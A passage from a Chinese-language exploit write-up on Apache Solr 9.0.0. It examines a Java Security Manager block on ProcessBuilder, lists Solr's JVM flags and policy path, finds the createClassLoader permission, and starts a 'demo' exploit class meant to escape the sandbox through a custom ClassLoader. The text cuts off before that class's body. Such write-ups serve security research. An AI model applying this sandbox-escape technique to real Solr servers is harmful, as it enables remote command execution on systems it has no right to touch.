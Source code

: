 ```bash
>(
Exp
.
java
:
10
)

...
```

在控制台日志的异常信息中，可以看到缺少了 `execute`的权限，而在堆栈中可以看到正是 `zk_backup_0.configs.conf1.Exp`中的 `ProcessBuilder.start()`方法触发的，因此我们不可以直接使用其执行命令

我们进入容器看一下 java 启动参数

```bash
ps aux
|
grep java
# solr         585  1.6 10.4 10480400 843664 pts/0 Sl   Feb21   5:15 /opt/java/openjdk/bin/java -server -Xms512m -Xmx512m -XX:+UseG1GC -XX:+PerfDisableSharedMem -XX:+ParallelRefProcEnabled -XX:MaxGCPauseMillis=250 -XX:+UseLargePages -XX:+AlwaysPreTouch -XX:+ExplicitGCInvokesConcurrent -Xlog:gc*:file=/var/solr/logs/solr_gc.log:time,uptime:filecount=9,filesize=20M -Dsolr.jetty.inetaccess.includes= -Dsolr.jetty.inetaccess.excludes= -DzkClientTimeout=30000 -DzkRun -Dsolr.log.dir=/var/solr/logs -Djetty.port=8983 -DSTOP.PORT=7983 -DSTOP.KEY=solrrocks -Duser.timezone=UTC -XX:-OmitStackTraceInFastThrow -XX:OnOutOfMemoryError=/opt/solr/bin/oom_solr.sh 8983 /var/solr/logs -Djetty.home=/opt/solr/server -Dsolr.solr.home=/var/solr/data -Dsolr.data.home= -Dsolr.install.dir=/opt/solr -Dsolr.default.confdir=/opt/solr/server/solr/configsets/_default/conf -Dlog4j.configurationFile=/var/solr/log4j2.xml -Dsolr.jetty.host=0.0.0.0 -Xss256k -Djava.security.manager -Djava.security.policy=/opt/solr/server/etc/security.policy -Djava.security.properties=/opt/solr/server/etc/security.properties -Dsolr.internal.network.permission=* -DdisableAdminUI=false -Dsolr.log.muteconsole -jar start.jar --module=http --module=requestlog --module=gzip
```

可以看到用于设置 Java Security Manager 的参数 `-Djava.security.manager-Djava.security.policy=/opt/solr/server/etc/security.policy-Djava.security.properties=/opt/solr/server/etc/security.properties`

可知配置文件在 `/opt/solr/server/etc/security.policy`，我们可以分析下有什么绕过的方法

> 如果下载了源码的话，也可以直接在 `solr-releases-solr-9.0.0\solr\server\etc`中找到 `security.policy`，绕过 java 沙箱可以参考这篇文章：https://www.mi1k7ea.com/2020/05/03/浅析 Java 沙箱逃逸/

### 自定义 ClassLoader 绕过

一通研究后发现里面有这个权限： `permission java.lang.RuntimePermission"createClassLoader";`

也就是我们可以自定义一个 ClassLoader 来进行绕过

原理具体看上面提到的文章，这里直接给一个可以在 solr 下利用的 demo

命令执行类

```bash
package zk_backup_0.configs.conf1;

import java.io.BufferedReader;
import java.io.File;
import java.io.FileOutputStream;
import java.io.InputStreamReader;
import java.security.AccessController;
import java.security.PrivilegedAction;

public class ExpBypassExec {

    public ExpBypassExec() {}

    static {
```